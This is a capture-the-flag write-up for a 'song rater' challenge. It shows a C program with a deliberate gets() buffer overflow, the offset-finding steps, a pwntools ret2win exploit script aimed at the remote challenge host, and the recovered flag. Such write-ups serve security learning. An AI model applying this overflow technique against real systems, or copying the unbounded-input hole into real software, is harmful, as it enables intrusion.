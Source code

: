 # Never gonna give you UB

> <p>Can you get this program to do what you want?</p>
> <p><a href="attachments/never-gonna-give-you-ub.tar.gz">never-gonna-give-you-ub.tar.gz</a></p>

## Path to Flag

We are given the C version of the program

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void scratched_record() {
	printf("Oh no, your record seems scratched :(\n");
	printf("Here's a shell, maybe you can fix it:\n");
	execve("/bin/sh", NULL, NULL);
}

extern char *gets(char *s);

int main() {
	printf("Song rater v0.1\n-------------------\n\n");
	char buf[0xff];
	printf("Please enter your song:\n");
	gets(buf);
	printf("\"%s\" is an excellent choice!\n", buf);
	return 0;
}
```
The program vulnerability is quite straightforward, which is using `gets()` to receive the user input.
Which makes this chall a basic ret2win, which we can just overwrite the return address by buffer overflow.

So, I Decide to find out the `pattern_offset` to determine the number of bytes needed using, and start off with creating a string much more than the buffer size (255).

<img src="attachments/pattern-run.png">

Then, I found the memory address stored in the stack pointer register ($rsp), and get the `pattern_offset`, which is 264 on `0x4133254164254148`

<img src="attachments/offset.png">

Lastly, created a script to connect to the remote host and complete the chall

```
#/usr/bin/env python3

from pwn import *

host = 'sweet-dreams-are-made-of-this--shaggy-7847.ctf.kitctf.de'
port = 443
songrater = context.binary = ELF('./song_rater')

context.update(terminal=['tmux', 'new-window'], os='linux', arch='amd64')

connection = remote(host, port, ssl=True)

getshell = songrater.symbols.scratched_record
log.info(f"Address of scratched_record: {hex(getshell)}")

payload = b"A" * 264
payload += p64(getshell)

connection.sendline(payload)
connection.interactive()
```

<img src="attachments/flag.png">

`GPNCTF{G00d_n3w5!_1t_l00ks_l1ke_y0u_r3p41r3d_y0ur_disk...}`